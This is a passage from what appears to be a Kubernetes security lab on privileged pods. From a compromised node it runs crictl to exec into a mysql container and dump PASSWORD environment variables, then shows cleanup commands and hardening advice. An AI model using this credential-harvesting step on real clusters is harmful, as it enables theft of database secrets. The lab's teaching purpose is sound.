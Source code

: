 ```
194bcb7eb9488       16ea53ea7c652       32 minutes ago      Running             main                      0                   49c3068b17f3d
12ffa242158ce       79b3d05b330c1       24 hours ago        Running             not-a-miner               0
...


[root@seck8s /]# mysql_container=$(crictl ps --name=mysql -q)


[root@seck8s /]# crictl exec -i -t $mysql_container sh -c 'env | sort | grep PASSWORD'
MYSQL_PASSWORD=c2VjcmV0cGFzc3dvcmQ=
MYSQL_ROOT_PASSWORD=UEBzc3cwcmQ=
```


## Cleanup
```sh
k -n privileged-pods delete -f pod-privileged.yaml
k delete ns privileged-pods
```

## Takeaways
- Consider hardening your Kubernetes cluster with [PodSecurityPolicy](https://kubernetes.io/docs/concepts/policy/pod-security-policy/) ([deprecated](https://kubernetes.io/blog/2021/04/06/podsecuritypolicy-deprecation-past-present-and-future/) since April 6, 2021) or [Admission Controllers](https://kubernetes.io/blog/2019/03/21/a-guide-to-kubernetes-admission-controllers/)
